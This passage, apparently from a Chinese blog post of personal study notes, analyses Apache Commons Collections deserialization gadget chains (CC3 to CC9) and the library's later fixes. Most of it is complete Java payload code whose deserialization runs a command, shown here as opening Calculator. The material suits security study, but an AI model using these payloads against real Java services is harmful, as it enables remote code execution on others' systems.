        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class}, map_handler);
        Constructor AnnotationInvocationHandler_Construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Construct.newInstance(Override.class, proxy_map);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(handler);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
		ObjectInputStream.readObject()
					AnnotationInvocationHandler.readObject()
						Map(Proxy).entrySet()
							AnnotationInvocationHandler.invoke()
								LazyMap.get()
									ChainedTransformer.transform()
									ConstantTransformer.transform()
									InstantiateTransformer.transform()
									newInstance()
										TrAXFilter#TrAXFilter()
										TemplatesImpl.newTransformer()
												TemplatesImpl.getTransletInstance()
												TemplatesImpl.defineTransletClasses
												newInstance()
													Runtime.exec()
```

# CommonsCollections4

## Basics

CC4 没有新利用的类，CC2 跟 CC3 结合了一下


## Gadget chain

**CC4 payload**

```java
public class CC4 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] realPoc = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        TransformingComparator comparator = new TransformingComparator(fakeChain);
        PriorityQueue queue = new PriorityQueue(2);
        Object[] queue_array = new Object[]{templates, 1};

        // gadget
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue, queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue, 2);

        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue, comparator);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

利用链

```java
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				PriorityQueue.heapify()
					PriorityQueue.siftDown()
						PriorityQueue.siftDownUsingComparator()
							TransformingComparator.compare()
								ChainedTransformer.transform()
									ConstantTransformer.transform()
									InstantiateTransformer.transform()
									newInstance()
										TrAXFilter#TrAXFilter()
										TemplatesImpl.newTransformer()
												TemplatesImpl.getTransletInstance()
												TemplatesImpl.defineTransletClasses
												newInstance()
													Runtime.exec()
```

# CommonsCollections5

## Basics

**适用版本**：3.1-3.2.1，JDK 1.8

CC1、CC3 适用于 JDK7的环境，通过调用 AnnotationInvocationHandler 实现了 RCE，但是 JDK8 更新了 AnnotaionInvocationHandler 方法，使其 `memberValues` 变量不为构造的 LazyMap 实例



回顾我们之前 CC1 的 RCE demo

 **CC1  LazyMap RCE demo**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

核心还是调用 LazyMap 的 get 方法，由此调用前面包装好的 ChainedTransformer 的 transform 方法。那么现在核心目的还是寻找到某个类可以传入一个 Map 对象，同时类里面的方法需要调用 Map 对象的 get 方法

## Gadget chain

**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        rceDemo.getValue();

    }
}
```

上述的 `TiedMapEntry#getValue` 调用了传入的 Map 对象的  get 方法



还是跟之前的思路一样，需要跟反序列化结合的话，需要继续构造

**fake CC5 payload**

```java
public class CC5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException(rceDemo);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();
        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

上述代码执行并不会在 readObject 这里 RCE，他 RCE 的原因是因为在实例化的时候的 RCE，在这里触发了传入 TiedMapEntry 的 toString



而在下面 readObject 调用 `val = valObj.toString();` 的时候， `valObj` 不为 TiedMapEntry



因此根据 valObj 的附值地方，重新构造 payload



通过反射构造 BadAttributeValueExpException 的  `val `值

**CC5 payload， JDK1.8**

```java
public class CC5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException("random");
        Field valDemo = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        valDemo.setAccessible(true);
        valDemo.set(finaldemo, rceDemo);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

利用链

```txt
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

JDK7u21 下是不能利用的，究其原因看一下 BadAttributeValueExpException 类，没有重写的 readObject 方法




# CommonsCollections6

## Basics

**CC6 特点：适用范围广，受 JDK 版本影响最小**

CC6 其实跟 CC5 是在 `TiedMapEntry#getValue` 延伸出来并行的两条链

回顾我们通过 `TiedMapEntry#getValue` 而进行 RCE 的 demo

**Level-0 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        rceDemo.getValue();
    }
}
```

回顾 TiedMapEntry 里面的方法，CC5 用的是 `TiedMapEntry#toString`，里面调用了`getValue`， 那么其实在 TiedMapEntry 还有 `hashCode` 跟 `equals` 同样调用了 `getValue`



## Gadget chain

CC6 其实就用到了 `hashCode`  方法，在向上寻找可控参数的以及调用到合适方法的时候，最终定位到 `HashSet#readObject`

**CC6 payload**

```java
public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException
            , InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);
        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, rceDemo);

        Field cf = ChainedTransformer.class.getDeclaredField("iTransformers");
        cf.setAccessible(true);
        cf.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(map);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

核心是在调用 `HashSet#readObject` 的时候，调用 map 的 put 方法



后续调用到 `HashMap#put`



之后会调用到 `HashMap#hash`



随后调用到 `TiedMapEntry.hashCode()`

利用链

```java
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```


## Simpler Gadget chain

简化链中用到了 `HashMap#readObject` 中的 hash 方法来触发 hashCode 方法



调用 hash 方法



令 key 为TiedMapEntry 对象，即可，这里直接使用 @phithon 师傅的代码

```java
public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "/Applications/Calculator.app/Contents/MacOS/Calculator" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

这里的 key 理论上是我们构造好的 TiedMapEntry ，value 是我们第二个 HashMap put 进去的 “value” 字符串



后续的调用就跟我们之前分析的一样

JDK221 下跟 p师傅原文的代码不一样，这里是 super.map，原文是 map。但是按原文步骤，remove 之后，绕不过这个判断，也没有调用到 chain 的链，但是还是能 RCE。玄学



# CommonsCollections7

## Basics

回顾前面 `TiedMapEntry#getValue`  的调用方式

回顾 TiedMapEntry 里面的方法，CC5 用的是 `TiedMapEntry#toString`，里面调用了`getValue`，CC6 用的是 `TiedMapEntry#hashCode`，里面调用了`getValue`

CC7 没有继续延用 `TiedMapEntry` 的方法去调用，而是用了 `AbstractMap#equals` 直接调用了 `LazyMap#get`

有几个小 trick

**yy 的 hashCode 跟 zZ 的 hashCode 相等**



## Gadget chain

`Hashtable#readObject` 的 `reconstitutionPut` 是我们的入口点



通过 `Hashtable#readObject` ，我们知道 key 跟 value 的值就是我们之前 put 进去的

```java
hashtable.put(key, value);
```



第一次调用 `Hashtable#reconstitutionPut` 的时候，不会进入循环，会给 `tab[index]` 初始化附值



第二次调用的时候，调用其 key 的 `equals`，进入其  `equals` 方法后 `e.hash == hash` 需要前后 hash 值相等



 `AbstractMapDecorator#equals`调用 map 的  `equals`



`AbstractMap#equals` 调用 m 的 `get`， 也就是 `LazyMap#get`，由此触发 RCE



构造 payload 的时候需要注意最后需要把 lazyMap2 的 yy 键 remove 掉

因为 `hashtable.put(lazyMap2, 2);` 这里在调用 put 方法的时候，也会调用到 equals 方法，就会增加一个yy键，为了保证其正常的反序列化，就要移除掉



**CC7 payload** 

```java
public class CC7 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")}),
                new ConstantTransformer(1)};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer("random")});

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, fakeChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, fakeChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        lazyMap2.remove("yy");

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

利用链

```java
Payload method chain:

java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.map.AbstractMapDecorator.equals
java.util.AbstractMap.equals
org.apache.commons.collections.map.LazyMap.get
org.apache.commons.collections.functors.ChainedTransformer.transform
org.apache.commons.collections.functors.InvokerTransformer.transform
java.lang.reflect.Method.invoke
sun.reflect.DelegatingMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke0
java.lang.Runtime.exec
```


# Commons Collections Version

## Commons Collections 3.2.2 Fix

3.2.2 版本使用了黑名单，禁止了 InvokerTransformer 类在序列化和反序列化的使用

```java
    private void writeObject(ObjectOutputStream os) throws IOException {
        FunctorUtils.checkUnsafeSerialization(class$org$apache$commons$collections$functors$InvokerTransformer == null ? (class$org$apache$commons$collections$functors$InvokerTransformer = class$("org.apache.commons.collections.functors.InvokerTransformer")) : class$org$apache$commons$collections$functors$InvokerTransformer);
        os.defaultWriteObject();
    }

    private void readObject(ObjectInputStream is) throws ClassNotFoundException, IOException {
        FunctorUtils.checkUnsafeSerialization(class$org$apache$commons$collections$functors$InvokerTransformer == null ? (class$org$apache$commons$collections$functors$InvokerTransformer = class$("org.apache.commons.collections.functors.InvokerTransformer")) : class$org$apache$commons$collections$functors$InvokerTransformer);
        is.defaultReadObject();
    }
```

## Commons Collections 4.1 Fix

4.1 InvokerTransformer 和 InstantiateTransformer 两个类都没有实现 Serializable 接口

`org.apache.commons.collections4.functors.InvokerTransformer`



`org.apache.commons.collections4.functors.InstantiateTransformer`




# More Gadget Chain

## CommonsCollections8

分析见这篇文章：https://www.anquanke.com/post/id/190472#h3-4

> CommonsCollections8是今年**[navalorenzo](https://github.com/navalorenzo)**推送到ysoserial上的，8与2，4的区别在于使用了新的readObject触发点`TreeBag`

`TreeBag#readObject`



调用父类的 `doReadObject`



调用其 `map` 的 `put`



后续就是 CC2 中利用 compare 的思路了



```java
TreeBag.readObject()
    -> AbstractMapBag.doReadObject()
    -> TreeMap.put()
    -> TransformingComparator.compare()
    -> InvokerTransformer.transform()
    -> TemplatesImpl.newTransformer()
    ... templates Gadgets ...
    -> Runtime.getRuntime().exec()
```


## CommonsCollections9

结合 [ysoserial Pull requests](https://github.com/frohoff/ysoserial/pulls) 看一下其他的 gadget

@梅子酒师傅的 [CommonsCollections9](https://github.com/frohoff/ysoserial/pull/125)

主要利用的是CommonsCollections:3.2版本新增的 DefaultedMap 来代替 LazyMap



RCE demo

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        DefaultedMap mapDemo = (DefaultedMap) DefaultedMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

结合一些 CC5 可以构造出来完整的 gadget

```java
public class CC9 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        DefaultedMap mapDemo = (DefaultedMap) DefaultedMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException("random");
        Field valDemo = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        valDemo.setAccessible(true);
        valDemo.set(finaldemo, rceDemo);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```




# END

复现分析完 CC 后的反思和小结

**挖掘反序列化利用链**

挖掘反序列化利用链，首先需要找一个对象里面反射调用 `java.lang.Runtime`，触发 RCE 的点叫 m0 然后构造一段命令执行 Level-0 的代码，随后我们继续找对象，寻找对象里面某个方法出发 m0 的方法，叫m1，随后当前类的方法有没有调用 m1 的，可能有 m2, m3, m4 等等，之后再找一个类触发 m1, m2, m3, m4 的方法...然后不断循环，直到找到一个类能满足：

1. 该类能调用 xx 对象的 xx 方法，然后循环调用到最后 RCE 的 Level -0 的方法
2. 该类可以被序列化


**如何优雅的弹 Calc**

问题来源于经常构造好一个命令执行点之后，在 IDEA 下经常编译器会帮我们触发一些 toString 等操作，导致我们的反序列化利用还没有触发到 readObject，就经常弹 Calc 了

@phithon 师傅Java安全漫谈里给出的答案是这样的

```java
				Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = 你构造的 transformers
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```


**关于 ChainedTransformer 执行多条命令**

参考链接：https://t.zsxq.com/aufUJEa

RCE demo

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")}),
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calendar.app/Contents/MacOS/Calendar")})});
        chainDemo.transform("random");
    }
}
```




**小结**

通过对 Commons Collections 各个链条的梳理和分析，对 Java 反序列化认识越发深刻

没有找到新的 gadgets ，反倒切换 Java 版本越发娴熟

**本篇作为自己的学习笔记，参考了诸多师傅的文章，写的时候也不是一气呵成，如文中有错误请不吝赐教**


